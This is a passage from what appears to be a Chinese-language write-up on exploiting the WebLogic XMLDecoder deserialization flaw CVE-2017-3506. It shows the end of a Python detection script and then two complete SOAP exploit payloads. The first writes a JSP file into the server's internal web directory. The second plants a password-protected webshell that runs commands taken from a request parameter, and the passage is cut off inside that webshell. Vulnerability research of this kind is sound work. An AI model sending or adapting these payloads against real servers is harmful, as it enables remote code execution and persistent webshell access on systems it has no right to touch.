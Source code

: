 ```python
            #print windows_data
            detect(url,linux_data)
            detect(url,windows_data)
            print check_dnslog(host,port)
        except Exception,e:
            print e
    else:
        print "usage:python {0} http://127.0.0.1:7001".format(sys.argv[0])
```

运行效果如下：

![detect_result](img/weblogic_CVE_2017_3506/detect_result.png)

#### 0x4、EXP的实现思路

从各种资料中学习到2种思路：

一是继续利用上面的PoC进行改造，利用各种系统命令来实现（也就是利用java.lang.ProcessBuilder）；

https://cxsecurity.com/issue/WLB-2018010082

二是使用不同类和参数，通过Java代码实现（比如通过java.io.PrintWriter直接写入webshell）

https://threathunter.org/topic/5a426e6bec721b1f1966f238

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
        <java><java version="1.4.0" class="java.beans.XMLDecoder">
            <object class="java.io.PrintWriter">
            <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/bb1fe939c9ec5.jsp</string><void method="println">
                    <string><%@ page language="java" pageEncoding="gbk"%><jsp:directive.page import="java.io.File"/><jsp:directive.page import="java.io.OutputStream"/><jsp:directive.page import="java.io.FileOutputStream"/><input type="hidden" path="<%=application.getRealPath("/") %>"><%response.setStatus(404);%></string></void><void method="close"/>
            </object>
        </java>
      </java>
    </work:WorkContext>
  </soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

https://threathunter.org/topic/5a436cc6ec721b1f1966f270

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<%
    if("ty".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
        int a = -1;          
        byte[] b = new byte[102400];          
        out.print("<pre>");          
        while((a=in.read(b))!=-1){
            out.println(new String(b));          
```